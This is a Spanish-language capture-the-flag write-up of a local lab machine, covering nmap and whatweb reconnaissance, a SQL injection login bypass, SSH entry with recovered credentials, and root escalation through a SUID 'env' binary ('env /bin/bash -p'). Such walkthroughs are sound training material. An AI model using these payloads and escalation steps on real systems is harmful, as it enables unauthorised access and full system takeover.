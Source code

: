 # Etapa de Reconocimiento

## Nmap

### 1.er Escaneo

Usamos la herramienta *nmap* para descubrir servicios que puedan estar corriendo.
```ruby
nmap -p- --open --min-rate 5000 -sS -vvv 172.17.0.2 -n -Pn -oG allPorts
```

#### Parámetros del Escaneo

| Parametro       | Motivo                                      |
| --------------- | ------------------------------------------- |
| -p-             | Escaneo de todo rango de puertos            |
| --open          | Filtrar solo por los puertos abiertos       |
| --min-rate 5000 | No permitir paquetes mas lentos que 5000p/s |
| -sS             | Usar el metodo TCP-SYN                      |
| -vvv            | Ver la informacion durante el escaneo       |
| 172.17.0.2      | La IP                                       |
| -n              | No aplicar Resolucion DNS                   |
| -Pn             | Deshabilitar el descubrimiento de Host      |
| -oG allPorts    | Exportar el escaneo en formato Grepeable    |

#### Output
Vemos que la máquina tiene abierto los puertos *22,80*, en los que concuerdan los servicios *SSH y HTTP*.
```ruby
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Reconocimiento WEB
### Whatweb
Usaremos el binario *whatweb $url* para ver información detallada de los servicios que puedan estar corriendo por detrás.
```ruby
whatweb http://172.17.0.2
```

Vemos que tiene una *PasswordField* y el título de la página es *Iniciar Sesión*, podemos intuir que tiene algún login.
```ruby
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

### Vista de la WEB
Vemos que sí tiene un login.
![[Pasted image 20240601180703.png]]

# Explotación
## SQLi
Al tener un login, lo primero que se prueba es un *SQLi* para intentar evadir el login.
![[Pasted image 20240601181435.png]]

En el campo USER vamos a insertar `${texto}' or 1=1;`, lo que queremos es que el resultado de la petición sea *True*:

Nosotros ahora estamos enviando esta petición:
`SELECT * FROM Users WHERE User = ${texto}' or 1=1;` (Por ejemplo)

Vemos que va a comprobar si hay un usuario que sea existente con el nombre *${texto}*, seguramente no, pero luego va a comprobar si *1=1*, en este caso sí.

La primera es *falsa* y la segunda es *verdadera*:

*falso* **or** *verdadero* = *verdadero*

Nos permite la evasión del login.

## SSH
Vemos un *Usuario* y una *Contraseña*, por lo tanto, intentaremos entrar por *ssh* (Servicio que sabemos que está corriendo).
![[Pasted image 20240601183040.png]]

Usamos *sshpass* para no tener que introducir la contraseña luego.
![[Pasted image 20240601183504.png]]

**¡¡Tenemos acceso al sistema!!**

### Tratamiento de la TTY

Es muy recomendable hacer un tratamiento de la TTY para poder hacer *[ ^L ]*, *[ ^C ]*, etc.
```ruby
script /dev/null -c bash
```

```ruby
stty raw -echo; fg
```

```ruby
[^Z]
```

```ruby
reset xterm
```

```ruby
export SHELL=bash && export TERM=xterm
```

## Escalada de Privilegios

### Búsqueda de Vulnerabilidades

Vamos a probar a buscar ficheros con *SUID* y usuario propietario *root*.
```ruby
find / -perm -4000 -user root 2>/dev/null
```

```r
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/env
/usr/bin/gpasswd
```

De todos los binarios, el **env** es vulnerable si tiene el *SUID*.

Se puede ver fácilmente en: https://gtfobins.github.io/gtfobins/env/

### Root
En esta misma página nos indica como podemos escalar privilegios con este binario:
```r
env /bin/bash -p
```
![[Pasted image 20240601185157.png]]

**¡¡Ya tenemos privilegios ROOT!!**